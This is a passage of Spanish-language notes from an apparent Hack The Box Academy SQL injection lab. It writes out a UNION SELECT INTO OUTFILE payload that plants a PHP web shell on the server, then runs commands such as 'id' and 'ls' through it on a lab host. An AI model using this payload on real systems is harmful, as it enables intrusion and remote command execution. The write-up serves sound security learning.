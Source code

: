 Verifico que he creado el fichero test.txt

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-62.png)

De la misma forma creo un fichero shell.php que contendra una una Web Shell para inyectar comandos.

' union select "",'<?php system($_REQUEST[comando]); ?>', "", "", ""  into outfile '/var/www/html/dashboard/shell.php'-- -

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-64.png)

Compruebo que puedo inyectar comandos con `http://83.136.252.199:38757/dashboard/shell.php?comando=id` y obtengo:

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-65.png)

Por lo que es valido y realizo diferentes inyecciones explorando la maquina:

```sh
http://83.136.252.199:38757/dashboard/shell.php?comando=ls
```
